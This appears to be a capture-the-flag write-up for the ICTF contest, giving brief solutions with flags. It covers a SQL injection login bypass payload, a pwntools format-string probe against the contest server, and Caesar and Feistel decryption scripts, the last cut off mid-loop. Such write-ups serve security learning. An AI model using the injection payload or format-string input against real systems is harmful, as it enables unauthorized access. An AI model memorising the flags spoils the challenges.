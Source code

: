 keyword: sql injection

A sql injection vulnerability exists in the login form. 

```
id: any value
pw:' or 1 -- a
```

```
ICTF{bas1c_sql_1nj3ct10n}
```

## Other options

keyword: format string bug

A format string bug exists in the program.

```python
from pwn import *
p=remote('icewall-ctf.kr',33338)
p.sendline('%s')
p.interactive()
```

## Crypto 1

keyword: caesar cipher

```python
e = 'NHYK{HFJXFW_HNUMJW_NX_F_XMNKY_HNUMJW}'
for i in xrange(1,26):
  d = ''
  for c in e:
    if 'A' <= c <= 'Z':
      d += chr((ord(c)-65 - i) % 26 + 65)
    else:
      d += c
  if 'ICTF' in d:
    print d
```

```
ICTF{CAESAR_CIPHER_IS_A_SHIFT_CIPHER}
```

## Crypto 2

keyword: feistel cipher

Refer to this document https://en.wikipedia.org/wiki/Feistel_cipher

```python
def decrypt(d):
    l = (d >> 32) & 0xffffffff
    r = d & 0xffffffff
    for i in xrange(128):
        t = r
        r = l
        l = t ^ l ^ (l | 368)
    return l << 32 | r

if __name__ == '__main__':
    res = open('result.txt', 'r').read().split('\n')
    res = map(int, res)

    flag = ''
    for i in res:
```